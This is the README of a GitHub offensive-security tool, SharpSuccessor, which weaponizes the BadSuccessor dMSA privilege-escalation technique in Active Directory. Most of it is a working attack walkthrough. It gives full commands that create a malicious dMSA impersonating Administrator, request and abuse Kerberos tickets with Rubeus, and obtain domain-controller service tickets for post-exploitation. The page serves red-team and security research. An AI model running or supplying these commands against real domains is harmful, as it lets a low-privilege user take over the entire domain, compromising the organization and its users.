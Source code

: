 # SharpSuccessor

SharpSuccessor is a .NET Proof of Concept (POC) for fully weaponizing Yuval Gordon’s ([@YuG0rd](https://x.com/YuG0rd)) [BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory) attack from Akamai. A low privilege user with `CreateChild` permissions over any Organizational Unit (OU) in the Active Directory domain with write access on a target object can perform account takeover.

Use SharpSuccessor to add and weaponize the dMSA object, as well as write the proper attributes on the target account you wish to impersonate:
```
SharpSuccessor.exe add /impersonate:Administrator /path:"ou=test,dc=lab,dc=lan" /account:jdoe /name:attacker_dMSA
```
![image](https://github.com/user-attachments/assets/adf814ad-3a67-4862-b01e-01cf42df0747)

Request a TGT as the current user context, in this case `jdoe`:
```
Rubeus.exe tgtdeleg /nowrap
```
![image](https://github.com/user-attachments/assets/90784c3d-0961-437a-9212-51c0accacad1)


Then use that tgt to impersonate the dMSA account:
```
Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIFTDCCB.....
```
![image](https://github.com/user-attachments/assets/7f642c89-7c87-4f48-bb60-a8d9be684912)


Now you can request a service ticket with Administrator context for any SPN, including the Domain Controllers for post-exploitation. For example here I will show admin privileges for SMB on the domain controller:

```
Rubeus.exe asktgs /user:attacker_dmsa$ /service:cifs/WIN-RAEAN26UGJ5.lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF2DCCBdS...
```
![image](https://github.com/user-attachments/assets/f4799c6d-ef21-4fbc-af2d-2fd900545937)

Now that we have the ticket in memory, we can test access:

![image](https://github.com/user-attachments/assets/6838bb98-5b7a-406a-a889-9e9236a3428f)

## Assistance and Inspirations
Massive thanks to [Jim Sykora](https://github.com/JimSycurity) and [Garrett Foster](https://x.com/unsigned_sh0rt) for the inspirations and assistance for this tool!
